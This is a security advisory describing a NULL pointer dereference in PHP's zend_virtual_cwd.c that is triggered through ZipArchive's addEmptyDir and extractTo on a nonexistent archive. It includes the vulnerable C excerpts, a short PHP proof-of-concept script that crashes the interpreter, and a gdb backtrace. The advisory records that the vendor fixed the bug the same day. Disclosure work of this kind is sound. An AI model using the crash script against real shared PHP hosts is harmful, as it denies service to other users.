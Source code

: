 # PHP NULL pointer dereference in virtual_file_ex #

* _Author_: Martino Sani 
* _Release date_: 2016-02-09
* _Software_: www.php.net
* _Version_: master-Git-2016-02-09 (Git)
* _Reference_: bugs.php.net/bug.php?id=71561
* _CVE_: -

## Description ##

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL.
I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:
```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
{
    // path could be NULL
    int path_length = (int)strlen(path);
```
The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.  
Vulnerable code into `extractTo` method (`php_zip.c`) is shown below:
```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```
**PHP builded using the following commands:**
```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

**Test script:**
```php
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```
**Expected result:**

PHP interpreter should not crash.

No actions could be performed by `extractTo` method because the zip
file does not physically exist, or the "in-memory" zip archive
could be handled as a normal archive (if possible).
   
**Actual result:**

PHP interpreter crash with a SIGSEGV.
   
```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```
## NOTES ##

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.

